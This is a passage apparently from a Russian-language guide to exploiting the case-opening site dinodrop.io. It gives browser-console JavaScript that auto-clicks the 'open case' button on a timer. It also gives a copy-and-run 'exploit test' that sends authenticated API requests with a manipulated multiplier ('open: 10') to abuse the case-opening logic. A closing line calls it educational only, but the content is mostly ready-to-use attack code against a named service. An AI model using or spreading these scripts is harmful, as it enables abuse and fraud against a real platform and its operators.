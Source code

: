 ### Автоматическое выполнение действий

```javascript
// Автоматически нажимать на кнопки открытия кейсов
setInterval(() => {
    const openButton = document.querySelector('[data-testid="open-case"]');
    if (openButton && !openButton.disabled) {
        openButton.click();
        console.log('🤖 Auto-clicked open button');
    }
}, 2000);
```

## ⚡ Быстрый старт

Скопируйте и выполните этот код для быстрого тестирования:

```javascript
// Быстрый тест основных уязвимостей
(async () => {
    console.log('🚀 Quick DinoDrop exploit test started...');
    
    // Тест 1: Информация о кейсе
    const caseInfo = await fetch('https://dinodrop.io/api/cases/get/1', {
        credentials: 'include'
    }).then(r => r.json()).catch(() => null);
    
    if (caseInfo) {
        console.log('✅ Case API accessible:', caseInfo);
        
        // Тест 2: Попытка открыть с коэффициентом
        const openResult = await fetch('https://dinodrop.io/api/cases/main', {
            method: 'POST',
            credentials: 'include',
            headers: {'Content-Type': 'application/json'},
            body: JSON.stringify({id: 1, open: 10})
        }).then(r => r.json()).catch(() => null);
        
        console.log('🎰 Case opening with coefficient 10:', openResult);
    }
    
    console.log('✅ Quick test completed');
})();
```

---

**Помните**: Эти примеры показывают потенциальные уязвимости. Реальная эксплуатация может быть заблокирована защитными механизмами сервера. Используйте только в образовательных целях!